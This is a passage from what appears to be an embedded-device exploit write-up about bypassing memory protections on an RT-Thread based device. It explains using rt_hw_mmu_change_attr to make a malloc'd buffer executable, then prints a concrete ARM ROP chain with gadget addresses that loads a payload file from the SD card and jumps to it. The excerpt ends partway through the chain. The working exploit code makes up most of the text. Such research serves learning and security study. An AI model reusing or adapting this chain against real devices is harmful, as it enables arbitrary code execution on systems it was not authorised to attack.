 The parameters are as follows:
- **va_start**: Virtual start address
- **pa_start**: Physical start address
- **size**: Size of memory to change attribute
- **attr**: New memory attribute

So all our ROP-chain needs to do is allocate some memory, get some code we control into it, and call **rt_hw_mmu_change_attr** on the memory to make it executable, then jump to it!

## Writing the Chain

When it comes to writing the chain, I still have to decide where the data is going to be loaded from:
- Maybe open a socket and send it in like I did with the camera?
- Somehow get a large chunk of data into global memory?
- Use the file write primitive we have and read the file into memory?

I ended up going with the last option, here is the secondary ROP-chain which does the following:
- Call **malloc_aligned** to get an aligned buffer (requirement of the memory attribute change)
- Use **rt_hw_mmu_change_attr** to make the allocated buffer executable
- Next call **fopen** to open the **/mnt/sdcard/test.aac** file (which we wrote earlier)
- With the file opened, we read it into the aligned buffer
- Finally, we branch to the buffer!

```
-python
rop_chain = p32(0xc03edf14) # pc

## do the initial malloc and save it somewhere (0x110 at the moment)

# | 0xc03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} |
rop_chain += p32(0xc00a5a90) # r4
rop_chain += p32(0xc01a724c) # r5 <- function to call here (rt_malloc_align)
rop_chain += p32(0x00002000) # r6 <- size of allocation
rop_chain += p32(0x00001000) # r7 <- alignment value
rop_chain += p32(0xc0473224) # r8
rop_chain += p32(0xc0450540) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc0588e9c) # pc

# | 0xc0588e9c | c0588e9c | mov r0,#0x0 | c0588ea0  | ldmia sp!,{r11,pc} | 
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc009c29c) # pc

# | 0xc009c29c | c009c29c | cpy r1,r7 | c009c2a0  | blx r4 | 
# | 0xc00a5a90 | c00a5a90 | cpy r0,r6 | c00a5a94 | blx r9 |
# | 0xc0450540 | c0450540 | cpy r3,r5 | c0450544 | blx r8 | 

# | 0xc0473224 | blx r3 | c0473228 | ldmia sp!,{r3,r4,r5,r6,r7,r8,r9,r10,r11,pc} | <- does the function call
rop_chain += p32(0xc04fe360) # r3
rop_chain += p32(0xc00d2838) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0x80000000) # r6 <- subtract from our buffer to get physical memory
rop_chain += p32(0xc0024820) # r7
rop_chain += p32(0xc008f514) # r8 
rop_chain += p32(0xc019ca6c) # r9 <- address of `rt_hw_mmu_change_attr`
rop_chain += p32(0x00002000) # r10 <- this is the size argument of the change attr function
rop_chain += p32(0xc08e4ee0 + 0x40) # r11 <- we back up the address of malloc'd buffer here
rop_chain += p32(0xc0420f80) # pc

## now we call rt_hw_mmu_change_attr (r0 is our buffer address)

# | 0xc0420f80 | c0420f80 | cpy r5,r0 | c0420f84  | blx r3 | 
# | 0xc04fe360 | c04fe360 | cpy r1,r5 | c04fe364  | blx r4 | 
```